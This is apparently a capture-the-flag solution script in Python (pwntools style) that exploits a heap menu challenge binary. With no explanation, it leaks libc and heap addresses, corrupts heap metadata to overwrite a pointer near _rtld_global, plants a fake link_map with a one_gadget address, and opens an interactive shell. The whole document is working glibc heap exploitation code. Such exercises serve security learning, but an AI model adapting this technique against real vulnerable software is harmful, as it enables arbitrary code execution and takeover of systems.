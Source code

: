 ```python
def delete(idx):
	cho(4)
	sla('Idx:', str(idx))
	
	
add(0,0x460)
add(4,0x90)
add(1,0x450)
add(4,0x90)
delete(0)
show(0)
ru('context: ')
libcbase=leak_address()-0x1ebbe0
ldbase=libcbase+0x20e000
_rtld_global=ldbase+ld.sym['_rtld_global']
IO_list_all = libcbase + libc.sym['_IO_list_all']
system = libcbase + libc.sym['system']
print('[+]libcbase: '+hex(libcbase))
print('[+]_rtld_global: '+hex(_rtld_global))
print('[+]system: '+hex(system))

	
add(4,0x500)	
edit(0,'a'*0xf)
show(0)
ru('aaaaa\n')
heap=leak_address()
print('[+]heap: '+hex(heap))

node=_rtld_global-0x4a048
edit(0,p64(libcbase+0x1ebfe0)*2+p64(heap)+p64(node-0x20))
delete(1)

add(4,0x500)
	
	
edit(0,p64(heap+0x510)+p64(libcbase+0x1ebfe0)+p64(heap+0x510)+p64(heap+0x510))
edit(1,p64(libcbase+0x1ebfe0)+p64(heap)+p64(heap)+p64(heap))
add(0,0x450)#fake_l

add(4,0x460)
	
one=[0xe6c7e,0xe6c81,0xe6c84]

pd = b'\x00'*0x18
pd+= p64(heap+0x510)
pd = pd.ljust(0x38,b'\x00')
pd+= p64(heap+0x510+0x58)
pd+= p64(8)
pd+= p64(libcbase+one[0])
pd = pd.ljust(0x100,b'\x00')
pd+= p64(heap+0x510+0x40)
pd = pd.ljust(0x110,b'\x00')
pd+= p64(heap+0x510+0x48)
pd = pd.ljust(0x30c,b'\x00')
pd+= p64(0x9)
	
edit(0,pd)
cho(5)


ia()
```